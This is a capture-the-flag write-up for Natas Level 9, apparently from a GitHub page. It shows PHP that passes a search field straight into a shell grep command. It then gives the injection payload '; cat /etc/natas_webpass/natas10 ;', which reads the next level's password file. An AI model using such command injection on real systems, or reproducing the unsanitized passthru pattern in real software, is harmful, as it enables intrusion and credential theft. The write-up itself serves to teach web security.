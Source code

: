 # Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.

![Level 9 Image](./images/Level9.png)

The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/><br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

Our payload
`; cat /etc/natas_webpass/natas10 ;` ->  Terminate the `grep` command with `;` and view file and terminate it with `;` again

As evident from below screenshot, this gets us password for next Level.

![Level 9 Solution](./images/Level9_solution.png)

### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i ; cat /etc/natas_webpass/natas10 ; dictionary.txt   #  ; terminates command
```
`;` terminates `grep` command, runs our `cat` command and terminates it again.

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
